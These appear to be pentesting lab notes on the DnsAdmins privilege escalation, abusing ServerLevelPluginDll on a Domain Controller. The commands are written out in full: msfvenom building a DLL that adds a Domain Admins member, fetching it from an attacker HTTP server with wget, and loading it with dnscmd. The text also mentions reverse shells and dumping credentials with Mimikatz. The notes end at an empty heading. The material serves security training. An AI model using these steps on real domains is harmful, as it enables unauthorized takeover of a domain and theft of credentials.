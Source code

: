 # DnsAdmins

this group have access to DNS information on the network and since the DNS service runs as `NT AUTHORITY\SYSTEM` we could potentially escalate privilege on DC.

the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the DNS service is restarted, the **DLL in this path will be loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An **attacker can load a custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

### Leveraging DnsAdmins Access

**Generating Malicious DLL**

to add a user to the `domain admins` group using `msfvenom`.

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

**Starting Local HTTP Server**

```shell-session
carbonlky@htb[/htb]$ python3 -m http.server 7777
```

**Downloading File to Target**

```powershell-session
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

**Loading DLL as Non-Privileged User (Will ERROR)**

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

**Loading DLL as Member of DnsAdmins**

```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

**Loading Custom DLL**

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

{% hint style="info" %}
specify the full path to our custom DLL or the attack will not work properly.
{% endhint %}

**Finding User's SID**

